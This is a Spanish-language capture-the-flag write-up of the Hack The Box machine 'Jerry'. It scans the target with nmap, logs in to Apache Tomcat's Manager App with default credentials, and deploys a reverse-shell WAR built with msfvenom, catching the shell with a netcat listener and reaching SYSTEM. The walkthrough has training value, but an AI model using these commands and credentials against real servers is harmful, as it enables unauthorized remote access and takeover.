Fase de reconocimiento
Primero procedo a hacer un análisis de puertos con nmap hacia el servidor:
sudo nmap -sS -p- --open --min-rate 5000 10.129.136.9 -Pn -oA Jerry-recon- -sS: Escaneo SYN (más rápido y discreto)
- -p-: Escaneo de todos los puertos
- --open: Mostrar solo puertos abiertos
- --min-rate 5000: Establecer una tasa mínima de paquetes por segundo
- -Pn: Omite el ping de host, lo que hace que el escaneo sea más rápido
- -oA Jerry-recon: Guardar los resultados en formato XML, Nmap y Grepable

Una vez reconocido que solo el puerto 8080 está abierto, podemos revisar qué servicios y versiones están corriendo en ese puerto:
sudo nmap -sCV -p 8080 10.129.136.9 -oA PortScan- -sCV: Escaneo de scripts y detección de versión
- -p 8080: Escaneo del puerto 8080
- -oA PortScan: Guardar los resultados en formato XML, Nmap y Grepable

Al ver el escaneo, se puede observar que en el puerto 8080 se está ejecutando un servicio de Apache Tomcat, por lo que podemos intentar acceder a la web para sacar más información.

¿Qué es Apache Tomcat?
Apache Tomcat es un servidor web y contenedor de servlets de código abierto desarrollado por la Apache Software Foundation. Es utilizado para ejecutar aplicaciones web basadas en Java, especialmente aquellas que utilizan servlets y JavaServer Pages (JSP). Tomcat implementa las especificaciones de Java Servlet y JSP, lo que permite a los desarrolladores crear aplicaciones web dinámicas y robustas.
Si exploramos las opciones de Server Status, Manager App y Host Manager, podemos ver que nos solicitan credenciales para ingresar.

Fase de explotación
Al no saber qué tipo de credenciales podemos usar, podemos buscar en internet información sobre credenciales por defecto para Apache Tomcat.
Revisando por internet, me encontré con este recurso, el cual contiene varias opciones útiles para crear un diccionario en caso de ser necesario.
Al fallar el login, Tomcat muestra la siguiente información:

En esa página podemos extraer información valiosa, ya que podemos ver los roles disponibles y lo que puede hacer cada uno. Además, si ponemos atención, nos muestra unas credenciales por defecto que podemos usar: tomcat como usuario y s3cret como contraseña.
Una vez probamos esas credenciales en el apartado de Manager App, podemos acceder al panel de control de Apache Tomcat.

Si investigamos un poco sobre las diferentes opciones de explotación de este panel, vemos que solo requerimos un archivo WAR para desplegar una aplicación web en Apache Tomcat.
Pero esta vez vamos a meter una reverse shell dentro de un archivo WAR.
Para lograrlo, encontré una reverse shell en formato WAR en la página de PayloadsAllTheThings. Sustituye <TU_IP_TUN0> por la IP de tu interfaz VPN de HTB:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<TU_IP_TUN0> LPORT=4242 -f war -o reverse.warEsto genera el archivo WAR que subiremos al panel de control de Apache Tomcat para ejecutarlo y obtener acceso remoto al sistema.

Una vez creado el archivo WAR, lo subimos desde la sección de despliegue del panel:

Con el archivo seleccionado, usamos la opción Deploy y veremos cómo aparece un nuevo path en la lista de aplicaciones con el nombre del archivo WAR.
Para este punto ya debemos tener el listener activo en nuestro sistema para recibir la reverse shell:
nc -lvnp 4242Con la escucha activa, hacemos clic en el nuevo path para activar la shell.


Una vez dentro del sistema, solo queda buscar las banderas: si ejecutamos whoami veremos que somos NT AUTHORITY\SYSTEM, y ambas banderas se encuentran en el mismo lugar.

Con esto concluimos la máquina Jerry, de dificultad fácil en Windows, la cual se enfoca principalmente en la explotación de vulnerabilidades en Apache Tomcat y no tanto en explotar un servidor Windows.
C:\> También pueden visitar el video explicativo de la máquina en mi canal de YouTube: Resolución de la Máquina Jerry | HTB